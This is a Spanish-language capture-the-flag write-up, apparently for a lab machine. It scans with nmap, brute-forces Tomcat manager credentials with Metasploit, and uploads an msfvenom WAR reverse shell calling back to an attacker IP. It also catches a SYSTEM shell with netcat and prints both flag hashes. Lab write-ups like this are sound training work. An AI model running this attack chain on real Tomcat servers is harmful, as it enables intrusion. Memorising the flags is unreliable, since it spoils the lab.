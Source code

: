 
![[ 20250706131558.png]]
# NMAP

Realizamos un escaneo básico de nmap para ver los puertos abiertos

```bash
nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 10.129.197.30 -oN scanner
```

![[ 20250706125044.png]]

una vez identificados los puertos abiertos vamos a realizar un escáner con scripts básicos para ver servicios y versiones

```bash
nmap -p8080 -sCV 10.129.197.30 -oN targeted
```

![[ 20250706125221.png]]

# Puerto 8080

entramos en la pagina web para ver que encontramos

![[ 20250706125423.png]]

despues de explorarla un poco vemos que en la parte de `manager app` aparece una solicitud de credenciales

![[ 20250706125702.png]]

## metasploit

abrimos metasploit

```bash
msfdb run
```


utilizamos el payload

```bash
use auxiliary/scanner/http/tomcat_mgr_login
```

![[ 20250706125927.png]]

cambiamos el RHOTS 

```bash
set RHOSTS 10.129.197.30
```

cambiamos el USERNAME

```bash
set USERNAME tomcat
```

y lanzamos el exploit

```bash
run
```

![[ 20250706130135.png]]

vemos el usuario y contraseña tomcat:s3cret

al ingresarlo en la pagina web accedemos al menú de manager 

![[ 20250706130238.png]]

en este manu vemos que podemos subir un archivo .war

## msfvenom

asi que creamos un payload malicioso

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.155 LPORT=1234 -f war >> pwned.war
```

subimos el payload con la shell en la pagina web

![[ 20250706130648.png]]

pulsamos deploy 

![[ 20250706130727.png]]

y vemos un mensaje que indica que el archivo se subió correctamente 

# Abuso de payload

nos ponemos en escucha en el puerto indicado en mi caso el 1234

```bash
nc -nlvp 1234
```

y en la url ponemos 

```bash
<IP VICTIMA>:8080/NOMBRE_PAYLAOD
```

```bash
10.129.197.30:8080/pwned
```

la pagina web quedara en blanco y por la terminal en escucha vemos lo siguiente

![[ 20250706131056.png]]

se ha estabecido conexion con la maquina victima 

![[ 20250706131117.png]]

y tenemos usuario system = administrador 

# flags

explorando el sistema llegamos al directorio `C:\Users\Administrator\Desktop\flags` donde encontramos un archivo con nombre `2 for the price of 1.txt`

utilizamos type para ver el archivo (dato importante como es un sistema windows y el nombre del archivo tiene espacios debemos ponerlo entre comillas "nombre de archivo" para que el sistema lo detecte)

![[ 20250706131329.png]]

y tenemos ambas flags

user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e